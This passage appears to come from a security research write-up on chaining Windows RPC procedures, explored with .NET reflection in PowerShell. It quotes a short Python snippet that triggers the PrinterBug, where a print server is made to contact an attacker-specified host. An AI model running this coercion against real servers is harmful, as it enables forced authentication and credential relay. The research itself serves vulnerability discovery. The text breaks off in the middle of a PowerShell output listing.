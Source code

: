 ```python
# Procedure call 1 (hRpcOpenPrinter)
resp = rprn.hRpcOpenPrinter(dce, '\\\\%s\x00' % host)

# Procedure call 2 (RpcRemoteFindFirstPrinterChangeNotificationEx)
request = rprn.RpcRemoteFindFirstPrinterChangeNotificationEx()
request['hPrinter'] =  resp['pHandle'] # resp is being used as input for hPrinter
request['fdwFlags'] =  rprn.PRINTER_CHANGE_ADD_JOB
request['pszLocalMachine'] =  '\\\\%s\x00' % self.__attackerhost
request['pOptions'] =  NULL
```
In this case, the `RpcRemoteFindFirstPrinterChangeNotificationEx` procedure expects a context handle input parameter of the opened printer. If we just send a random context handle, it will result in the `The stub received bad data` error. In terms of vulnerability research, we will miss a lot of possible vulnerabilities like PrinterBug if we assume that we only need one procedure to trigger a vulnerability.

To provide the security researcher some insights into which procedure provides the necessary output parameter for a procedure as input parameter, we will need to dive into more .NET reflection.

We will first need to find all "complex" output parameters for a method. A method is the procedure object in PowerShell.

```powershell
$method = $client.GetType().GetMethods() |? { $_.Name -eq 'RpcOpenPrinter' }
```

When we have specified the method object, we can now look for it's return types:
```powershell
$method.ReturnType.GetFields()

Name                   : p1
MetadataToken          : 67109366
FieldHandle            : System.RuntimeFieldHandle
Attributes             : Public
FieldType              : NtCoreLib.Ndr.Marshal.NdrContextHandle
MemberType             : Field
ReflectedType          : RpcOpenPrinter_RetVal
DeclaringType          : RpcOpenPrinter_RetVal
Module                 : gwpbn5kb.out.dll
IsCollectible          : False
IsInitOnly             : False
IsLiteral              : False
IsNotSerialized        : False
IsPinvokeImpl          : False
IsSpecialName          : False
IsStatic               : False
IsAssembly             : False
IsFamily               : False
IsFamilyAndAssembly    : False
IsFamilyOrAssembly     : False
IsPrivate              : False
IsPublic               : True
IsSecurityCritical     : True
IsSecuritySafeCritical : False
IsSecurityTransparent  : False
CustomAttributes       : {}

----snipped-----
```
We can see that the `FieldType` here is `NtCoreLib.Ndr.Marshal.NdrContextHandle`. This is essentially the parameter type that we wanted to know. However, a procedure can provide multiple output parameters:
```powershell
$method.ReturnType.GetFields().FieldType

IsPublic IsSerial Name                                     BaseType
```
